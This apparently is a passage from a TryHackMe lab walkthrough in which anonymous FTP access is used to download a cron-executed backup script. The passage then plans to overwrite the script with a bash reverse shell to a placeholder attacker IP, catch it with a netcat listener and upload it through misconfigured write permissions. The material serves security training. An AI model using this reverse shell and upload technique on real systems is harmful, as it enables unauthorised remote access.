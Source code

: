 ```
We're going to be using the "FTP" package that comes installed on most Linux environments but especially the THM AttackBox.To connect, we simply use ftp and provide the IP address of the Instance. In my case, I would use ftp 10.10.185.239 , but you would need to use ftp 10.10.170.60 for your vulnerable Instance.

When prompted for our "Name", we enter "anonymous". If successful, we have confirmed that the FTP Server has "anonymous" mode enabled - successful login looking like so:

You can use the ```help``` command to list some of the commands you can run whilst connected to the FTP Server. Here's a quick rundown of the fundamentals:

| Command | Description                                                           |
|---------|-----------------------------------------------------------------------|
| ls      | List files and directories in the working directory on the FTP server |
| cd      | Change our working directory on the FTP server                        |
| get     | Download a file from the FTP server to our device                     |
| put     | Upload a file from our device to the FTP server                       |

Let's look at the directories available to us using ```ls```. There is only one folder with data that our user has permission to access:

We'll navigate to this using cd to change our working directory and then ls to list the contents. The file within this folder contains a file with a ".sh" extension. This extension is a shell script, that when executed, will run commands that we program. Let's use get to get the file from the server onto our device, so we understand why this file has been left here!

##### 9.6. Finding our Exploit
With the file downloaded, let's open it on our device using a terminal text editor such as nano.

We don't need to understand what happens here outside of the comments. The script executes every minute (according to Elf McEager), creates a backup of a folder and stores it in Elf McEager's home directory. What if we were to replace the commands executed in this script with our own, malicious commands? Uploading a file requires separate permission that shouldn't be granted to the "anonymous" user. However, permissions are very easy to oversight - such as in the case here.

##### 9.6.1. Let's use [pentesters cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) to get a good command that will be executed by the server to
generate a shell to our AttackBox, replacing the IP_ADDRESS with your TryHackMe IP, this address is displayed on the navigation bar on the [Access page](https://tryhackme.com/access).
```bash
bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1
```

##### 9.6.2. Let's set up a netcat listener to catch the connection on our AttackBox: nc -lvnp 4444

##### 9.6.3. We'll now attempt to upload our malicious script to the folder that we have write permissions on the FTP server by returning to our FTP prompt
and using put to put the file into that directory (ensuring it is your current directory).
